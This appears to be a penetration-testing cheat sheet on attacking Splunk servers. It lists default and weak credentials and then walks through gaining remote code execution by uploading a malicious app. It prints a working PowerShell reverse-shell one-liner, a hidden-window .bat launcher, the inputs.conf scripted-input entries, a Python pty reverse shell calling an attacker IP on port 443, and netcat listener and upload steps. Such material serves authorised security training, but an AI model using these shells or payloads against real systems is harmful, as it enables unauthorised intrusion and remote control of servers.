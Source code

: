 # Splunk Attacks

* \
  Splunk web server runs by default on port 8000
  * works on https
* On older versions of Splunk, the default credentials are `admin:changeme`
  * If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Enumeration

* The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication - It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. - This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment - Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.&#x20;

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Splunk has multiple ways of running code, such as
  * server-side Django applications
  * REST endpoints
  * scripted inputs
  * alerting scripts
* A common method of gaining remote code execution on a Splunk server is through the use of a scripted input

### Attacking Splunk

* We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us.
  * The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1)
* The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file
* &#x20;Our reverse shell will be a PowerShell one-liner.

```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions.
  * Here we set the app as enabled and tell Splunk to run the script every 10 seconds.
  * The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 
```

```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

* Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

* The next step is to choose `Install app from file` and upload the application.

```
https://10.129.201.50:8000/en-US/manager/search/apps/local
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
 sudo nc -lnvp 443
```

* On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

```
https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.
* If we were dealing with a **Linux host**, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

